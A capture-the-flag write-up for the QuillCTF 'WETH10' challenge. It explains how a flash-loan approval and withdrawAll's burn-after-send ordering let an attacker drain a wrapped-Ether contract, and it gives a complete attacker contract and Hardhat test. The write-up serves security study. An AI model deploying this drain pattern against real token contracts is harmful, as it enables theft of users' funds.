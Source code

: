 # QuillCTF: 9. WETH10

> Tired of WETH9, we created an overall better version of the commonly used contract,
> providing a trustless, immutable, and standardized way for smart contracts to abstract
> away the difference between the native ETH asset and fungible ERC-20 tokens.
> We call it WETH10, the Messi Wrapped Ether.
>
> The contract currently has 10 ethers.

**Objective of CTF:**

- Your job is to rescue all the funds from the contract, starting with 1 ether, in only one transaction.

**Target contract:**

```solidity
pragma solidity ^0.8.0;

import {ERC20} from "@openzeppelin/contracts/token/ERC20/ERC20.sol";
import {ReentrancyGuard} from "@openzeppelin/contracts/security/ReentrancyGuard.sol";
import {Address} from "@openzeppelin/contracts/utils/Address.sol";

// The Messi Wrapped Ether
contract WETH10 is ERC20("Messi Wrapped Ether", "WETH10"), ReentrancyGuard {
  receive() external payable {
    deposit();
  }

  function _burnAll() internal {
    _burn(msg.sender, balanceOf(msg.sender));
  }

  function deposit() public payable nonReentrant {
    _mint(msg.sender, msg.value);
  }

  function withdraw(uint256 wad) external nonReentrant {
    Address.sendValue(payable(msg.sender), wad);
    _burn(msg.sender, wad);
  }

  function withdrawAll() external nonReentrant {
    Address.sendValue(payable(msg.sender), balanceOf(msg.sender));
    _burnAll();
  }

  /// @notice Request a flash loan in ETH
  function execute(address receiver, uint256 amount, bytes calldata data) external nonReentrant {
    uint256 prevBalance = address(this).balance;
    Address.functionCallWithValue(receiver, data, amount);

    require(address(this).balance >= prevBalance, "flash loan not returned");
  }
}
```

## The Attack

In this challenge, it first feels like we should do something with the flash loan. However, most of the functions are re-entrancy guarded, so we can't really get into them from within the loan. However, the loan logic itself allows us to call anything!

So, first we can have infinite allowance by making the contract itself call `approve` from within the loan, approving us a lot of tokens.

The real trick is in the second one, which is related to actually draining the funds. Let us examine the withdraw functions:

- `withdraw` takes an amount, and sends it as value to the caller, and burns that same amount from the WETH10.
- `withdrawAll` seems like it is doing a `withdraw(<your-balance>)` but it is not! At the burning step, it just burns your remaining token balance at that point! So, if you could somehow secure your tokens elsewhere right after receiving your withdrawals, but right before the burning takes place; then, you can retrieve those tokens later to keep withdrawing!

That is exactly what we will do. We first start with 1 ETH, so we can draw 1 ETH for free. Then, we can draw 2 ETH, and then 4 ETH and so on, until we drain the contract.

## Proof of Concept

Our attacker contract, acting as Bob here, is written as follows:

```solidity
contract WETH10Attacker {
  WETH10 immutable weth10;
  address immutable target;
  address immutable bob;

  bool ispwning;

  constructor(address targetAddress) {
    weth10 = WETH10(payable(targetAddress));
    bob = address(this);
    target = targetAddress;
  }

  function min(uint256 a, uint256 b) internal pure returns (uint256) {
    if (a < b) {
      return a;
    }
    return b;
  }

  function pwn() external {
    // take 0-amount flash loan, approving many many tokens to the user
    weth10.execute(target, 0, abi.encodeWithSignature("approve(address,uint256)", [uint256(uint160(bob)), 9999 ether]));

    while (target.balance != 0) {
      // commence attack with min(yourBalance, targetBalance)
      uint256 amount = min(bob.balance, target.balance);

      // deposit WETH
      weth10.deposit{value: amount}();

      // withdraw WETH, will enter `receive`
      ispwning = true;
      weth10.withdrawAll();
      ispwning = false;

      // transferFrom back your WETH10
      weth10.transferFrom(target, bob, amount);

      // withdraw for real to get extra ETH for your WETH10
      weth10.withdrawAll();
    }
  }

  receive() external payable {
    if (ispwning) {
      // send WETH10 back to the pool, before burning happens
      weth10.transfer(target, msg.value);
    }
  }
}
```

A Hardhat proof-of-concept test is written as follows (in compliance with the setup described in Foundry):

```ts
describe('QuillCTF: 9. WETH10', () => {
  let owner: SignerWithAddress;
  let attacker: SignerWithAddress;

  let contract: WETH10;
  let bob: WETH10Attacker;

  const CONTRACT_INITIAL_BALANCE = ethers.utils.parseEther('10');
  const BOB_INITIAL_BALANCE = ethers.utils.parseEther('1');

  before(async () => {
    [owner, attacker] = await ethers.getSigners();
    contract = await ethers.getContractFactory('WETH10', owner).then(f => f.deploy());
    await contract.deployed();

    // weth contract should have 10 ether
    await ethers.provider.send('hardhat_setBalance', [contract.address, '0x8ac7230489e80000']);
    expect(await ethers.provider.getBalance(contract.address)).to.eq(CONTRACT_INITIAL_BALANCE);
  });

  it('should rescue funds', async () => {
    bob = await ethers.getContractFactory('WETH10Attacker', attacker).then(f => f.deploy(contract.address));
    await bob.deployed();

    // bob should have 1 ether
    await ethers.provider.send('hardhat_setBalance', [bob.address, '0xde0b6b3a7640000']);
    expect(await ethers.provider.getBalance(bob.address)).to.eq(BOB_INITIAL_BALANCE);

    // pwn
    await bob.pwn();
  });

  after(async () => {
    // empty weth contract
    expect(await ethers.provider.getBalance(contract.address)).to.eq(0);

    // bob balance should be 11 ETH
    expect(await ethers.provider.getBalance(bob.address)).to.eq(ethers.utils.parseEther('11'));
  });
});
```
